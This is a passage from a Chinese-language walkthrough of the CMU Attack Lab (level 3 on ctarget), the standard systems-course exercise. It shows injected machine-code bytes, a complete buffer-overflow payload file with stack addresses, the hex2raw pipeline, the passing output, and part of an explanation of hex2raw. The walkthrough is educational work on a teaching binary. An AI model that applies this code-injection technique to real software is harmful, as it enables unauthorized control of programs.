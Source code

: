 至此，得到了汇编语句对应的字节码：

```shell
48 c7 c7 a8 dc 61 55    /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00          /* pushq  $0x4018fa */
c3                      /* retq */
```

---

和`level 2`类似，编辑用于攻击的字符串文件`exploit.txt`（**注意注释周围的空格**）：

```shell
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00 /* pushq  $0x4018fa */
c3 /* retq */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of %rsp in getbuf */
35 39 62 39 39 37 66 61 00 /* address of string */
```

再将保存的`exploit.txt`输入到`ctarget`：

```shell
cat exploit.txt | ./hex2raw | ./ctarget -q
```

得到输出如下：

```shell
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

完成。

## <span id = "hex2raw">Using `hex2raw`</span>

`hex2raw`将十六进制格式的字符串作为输入。在这种格式下，每个字节值由两个十六进制数字表示。 例如，字符串“`012345`”可以十六进制格式输入为“`30 31 32 33 34 35 00`”。（请记住，十进制数字`X`的ASCII码为`0x3X`，并且字符串的结尾由空字节指示。）

传递给`hex2raw`的十六进制字符应由空格（空格或换行符）分隔。我们建议你在处理字符串的不同部分使用换行符分隔。 `hex2raw`支持C样式的块注释，因此你可以标记字符串的各个部分（**确保在开始和结束注释字符串（“`/*` ”，“`*/`”）周围都留有空格，以便注释被忽略**）。

如果在文件`exploit.txt`中生成了十六进制格式的字符串，则可以通过几种不同方式将原始字符串应用于`ctarget`或`rtarget`：

1. 你可以设置一系列管道以将字符串通过`hex2raw`传递。
